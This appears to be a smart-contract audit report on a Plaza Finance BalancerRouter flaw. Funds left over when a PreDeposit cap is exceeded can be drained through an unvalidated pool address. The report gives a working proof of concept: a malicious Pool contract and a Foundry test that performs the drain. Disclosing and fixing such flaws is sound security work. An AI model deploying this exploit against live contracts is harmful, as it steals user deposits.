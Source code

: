 Straight Tortilla Cougar

High

# Leftover funds in BalancerRouter can be drained

### Summary

An issue caused by:

- funds being left in the ``BalancerRouter`` contract due to exceeding the ``PreDeposit`` deposit cap in the `joinBalancerAndPredeposit`` flow;
- and no validation of the ``_plazaPool`` address when calling ``[exitPlazaAndBalancer](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/BalancerRouter.sol#L92)``

can lead to user funds being stolen by an attacker.

### Root Cause

In [``PreDeposit.sol:125``](https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/PreDeposit.sol#L125) , the amount transferred to the PreDeposit contract is lower than the amount the user has put in, due to filling the contract's capacity.

This scenario will lead to the difference between ``balancerPoolTokenReceived`` and the amount which was transferred to the ``PreDeposit`` contract to be left in the ``BalancerRouter`` contract.

Any user can withdraw these funds by calling `exitPlazaAndBalancer`, pointing to the address of a malicious ``_plazaPool``, effectively stealing from users' deposits.

### Internal Pre-conditions

1. A user calls ``joinBalancerAndPredeposit`` with an amount which triggers the ``Predeposit`` contract capacity to be exceeded.
2. This leads to the excess funds the user has sent to be left in the ``BalancerRouter`` contract

### External Pre-conditions

_No response_

### Attack Path

1. Attacker deploys a malicious contract adhering to the ``Pool`` interface, which will return `balancerPoolToken.balanceOf(address(balancerRouter))`` when ``redeem`` is called.
2. Attacker calls ``exitBalancerAndPlazaPool``

### Impact

The attacker can drain user funds.

### PoC

1. Deploy the following PlazaPool contract:

```solidity
contract MaliciousPlazaPool is Pool {

    IERC20 public balancerPoolToken;
    BalancerRouter public balancerRouter;

    constructor(address balancerRouterAddress, address balancerPoolTokenAddress) {
        balancerPoolToken = IERC20(balancerPoolTokenAddress);
        balancerRouter = BalancerRouter(balancerRouterAddress);
    }

    function redeem(TokenType tokenType, uint256 depositAmount, uint256 minAmount) public override whenNotPaused() nonReentrant() returns(uint256) {
        uint256 routerBalance = balancerPoolToken.balanceOf(address(balancerRouter));
        return routerBalance;
    }
}
```


2. Place the following test in ``BalancerRouter.t.sol`` and run:

```solidity
  function testExitPlazaAndBalancerExploit() public {
     // First join Balancer and Plaza to get some Plaza tokens

      PreDeposit predepositContract = PreDeposit(Utils.deploy(address(new PreDeposit()), abi.encodeCall(
      PreDeposit.initialize, 
      (params, address(poolFactory), block.timestamp, block.timestamp + 1 hours, 10 ether, "Bond ETH", "bondETH", "Leveraged ETH", "levETH")
    )));
    vm.startPrank(user);

    IAsset[] memory assets = new IAsset[](2);
    assets[0] = IAsset(address(asset1));
    assets[1] = IAsset(address(asset2));

    uint256[] memory maxAmountsIn = new uint256[](2);
    maxAmountsIn[0] = 1 ether;
    maxAmountsIn[1] = 1 ether;

    asset1.approve(address(router), 1 ether);
    asset2.approve(address(router), 1 ether);

    // Join first to get Plaza tokens - 15 ether will be returned
    uint256 plazaTokens = router.joinBalancerAndPredeposit(
      BALANCER_POOL_ID,
      address(predepositContract),
      assets,
      maxAmountsIn,
      ""
    );
    vm.stopPrank();
  
    // Create new malicious pool
    MaliciousPlazaPool maliciousPool = new MaliciousPlazaPool(address(router), address(balancerPoolToken));

    //5 ETH balance is stuck in the pool contract
    console.log(balancerPoolToken.balanceOf(address(router)));

    router.exitPlazaAndBalancer(
        BALANCER_POOL_ID,
        address(maliciousPool),
        assets,
        plazaTokens,
        maxAmountsIn,
        "",
        Pool.TokenType.BOND,
        0);
  }
```

### Mitigation
Whenever the capacity of the ``PreDeposit`` contract is exceeded, return the remaining funds to the ``msg.sender``
